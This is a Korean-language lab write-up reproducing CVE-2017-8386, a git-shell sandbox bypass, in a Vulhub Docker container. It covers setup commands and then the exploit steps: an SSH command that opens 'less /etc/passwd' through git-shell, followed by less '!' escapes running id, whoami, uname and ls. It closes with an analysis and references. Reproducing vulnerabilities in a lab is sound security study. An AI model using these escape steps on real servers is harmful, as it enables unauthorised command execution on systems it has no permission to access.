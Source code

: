 # CVE-2017-8386: git-shell Sandbox Bypass to RCE PoC
정수진(@suz1n)

## 개요
Git-shell은 SSH를 통해 제한된 git 명령만 허용하는 환경을 제공합니다. 하지만 특정 버전의 git-shell(2.12.2 등)에서는 `less` 명령어를 악용해 sandbox를 우회하고 시스템 명령어를 실행할 수 있는 취약점(CVE-2017-8386)이 존재합니다.

본 보고서는 해당 취약점에 대한 PoC를 진행하고 과정을 정리한 것입니다.

## 환경 구축

### 사용 도구 및 버전
- Docker: 24.0.7
- Docker-Compose: v2.34.0
- Host OS: macOS
- Target OS: Ubuntu 16.04 (컨테이너 내부)
- Git Version: 2.12.2
- SSH Server

### Vulhub 레포지토리 클론
`git clone https://github.com/phith0n/vulhub.git`

`cd vulhub/git/CVE-2017-8386/`
![Image1](https://github.com/user-attachments/assets/1f65fb3f-232e-4db4-b410-07f1a87f10a2)
### docker-compose.yml 및 Dockerfile 구성
	• Ubuntu 16.04 베이스 이미지
	• Git 2.12.2 소스 설치
	• OpenSSH 서버 설치 및 실행
	• git-shell 환경 설정 (git 사용자 생성)

### 컨테이너 빌드 및 실행
`docker-compose build`


`docker-compose up -d`


`docker ps`


	• 컨테이너 실행 확인 (git-shell-cve-2017-8386)
![Image2](https://github.com/user-attachments/assets/ca0e76e1-ccea-4d71-b34e-055e9fd4a803)
### SSH 키 등록 및 환경 설정
	1. 로컬에서 id_rsa.pub 생성 및 복사
	2. 컨테이너 내부 접속 및 git 사용자로 전환
	3. authorized_keys 등록
`docker exec -it git-shell-cve-2017-8386 /bin/bash`


`chsh -s /bin/bash git`


`su git`


`mkdir -p ~/.ssh`


`chmod 700 ~/.ssh`


`touch ~/.ssh/authorized_keys`


`chmod 600 ~/.ssh/authorized_keys`


`vim ~/.ssh/authorized_keys`

![Image3](https://github.com/user-attachments/assets/82ed4833-7d07-4b50-a6ec-fa663761ff16)
### 추가 패키지 설치
`apt update`


`apt install less -y`


`apt install man-db -y`


	• PoC 수행을 위해 less, man 패키지 설치 완료

## PoC 과정

### 정상적인 SSH 접속
`ssh -p 3322 -i id_rsa -t git@127.0.0.1 "less /etc/passwd"`


• less 화면 진입 성공


• ! 명령어를 통해 시스템 명령어 실행 가능


### 명령어 실행 (sandbox 우회)
• !id -> 사용자 ID, 그룹 ID 출력
![first_execute.png](https://github.com/suz1n/WHS3_vulhub/blob/main/first_execute.png)


• !whoami -> 현재 사용자(git)


• !uname -a -> 시스템 커널 정보 출력


• !ls /home/git -> git 홈 디렉토리 파일 목록 출력


## 분석
	• git-shell 환경에서는 사용자가 시스템 명령어를 실행할 수 없게 제한함.
	• 그러나 `git-upload-archive --help` 명령어를 통해 내부적으로 less 호출이 가능.
	• less 명령어는 ! 기능을 통해 시스템 쉘 명령 실행을 지원.
	• 결과적으로 git-shell sandbox를 우회하여 임의 명령어 실행이 가능함.

## 레퍼런스
• Insinuator 블로그: https://insinuator.net/2017/05/git-shell-bypass-by-abusing-less-cve-2017-8386/
• Vulhub GitHub Repository: https://github.com/phith0n/vulhub

## GitHub 레포지토리 링크
https://github.com/suz1n/WHS3_vulhub
